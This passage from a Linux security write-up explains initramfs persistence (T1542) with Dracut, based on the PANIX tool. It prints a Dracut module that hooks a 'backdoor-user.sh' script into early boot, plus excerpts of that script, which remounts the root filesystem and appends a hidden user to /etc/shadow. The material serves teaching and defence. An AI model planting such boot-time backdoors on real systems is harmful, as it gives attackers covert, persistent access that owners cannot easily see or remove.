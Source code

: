 Using Dracut, attackers or administrators can easily modify initramfs to include custom scripts or functionality. For example, a malicious actor might:

* Add a script that executes commands on boot.  
* Alter existing modules to modify system behavior before the root filesystem is mounted.

In the next section, we’ll walk through creating a custom Dracut module to modify initramfs.

# Persistence through T1542 - Initramfs: Modifying with Dracut

It is always a great idea to walk before we run. In the previous section we learnt how to manipulate initramfs manually, which can be difficult to set up. Now that we understand the basics, we can persist much easier by using a helper tool called Dracut, which is available by default on many Linux systems. Let’s take a look at the [setup_initramfs.sh](https://github.com/Aegrah/PANIX/blob/7e27768807e12d11932e2fca5b6a4867308295dd/modules/setup_initramfs.sh) module again, but this time with a focus on the Dracut section.

This PANIX module creates a new Dracut module directory at `/usr/lib/dracut/modules.d/99panix`, and creates a `module-setup.sh` file with the following contents:

```
#!/bin/bash
check()  { return 0; }
depends() { return 0; }
install() {
	inst_hook pre-pivot 99 "$moddir/backdoor-user.sh"
}
```

This script ensures that when the initramfs is built using Dracut, the custom script (`backdoor-user.sh`) is embedded and configured to execute at the pre-pivot stage during boot. By running at the pre-pivot stage, the script executes before control is handed over to the main OS, ensuring it can make modifications to the real root filesystem.

After granting `module-setup.sh` execution permissions, the module continues to create the `backdoor-user.sh` file. To view the full content, inspect the module source code. The important parts are:

```
#!/bin/sh

# Remount the real root if it's read-only
mount -o remount,rw /sysroot 2>/dev/null || {
	echo "[dracut] Could not remount /sysroot as RW. Exiting."
	exit 1
}
[...]

if check_user_exists "${username}" /sysroot/etc/shadow; then
    echo "[dracut] User '${username}' already exists in /etc/shadow."
else
    echo "${username}:${escaped_hash}:19000:0:99999:7:::" >> /sysroot/etc/shadow
    echo "[dracut] Added '${username}' to /etc/shadow."
fi

[...]
```
